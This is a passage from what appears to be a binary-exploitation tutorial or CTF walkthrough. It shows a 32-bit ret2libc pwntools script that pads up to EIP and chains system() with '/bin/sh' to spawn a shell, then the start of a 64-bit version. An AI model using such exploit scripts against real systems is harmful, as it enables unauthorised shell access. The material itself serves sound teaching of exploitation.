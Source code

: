       io = start()
      
      # Lib-c offsets, found manually (ASLR_OFF)
      libc_base = 0xf7dba000
      system = libc_base + 0x45040
      binsh = libc_base + 0x18c338
      
      # How many bytes to the instruction pointer (EIP)?
      padding = 76
      
      payload = flat(
          asm('nop') * padding,  # Padding up to EIP
          system,  # Address of system function in libc
          0x0,  # Return pointer (cause this is x86)
          binsh  # Address of /bin/sh in libc (an argument)
      )
      
      # Write payload to file
      write('payload', payload)
      
      # Exploit
      io.sendlineafter(b':', payload)
      
      # Get flag/shell
      io.interactive()
      ```
      
### 10. 64 bit version of exploit script
      ```
      from pwn import *
      
      
      # Allows you to switch between local/GDB/remote from terminal
      def start(argv=[], *a, **kw):
          if args.GDB:  # Set GDBscript below
              return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
          elif args.REMOTE:  # ('server', 'port')
              return remote(sys.argv[1], sys.argv[2], *a, **kw)
          else:  # Run locally
              return process([exe] + argv, *a, **kw)
      
      
      # Specify GDB script here (breakpoints etc)
      gdbscript = '''
      init-pwndbg
      continue
      '''.format(**locals())
      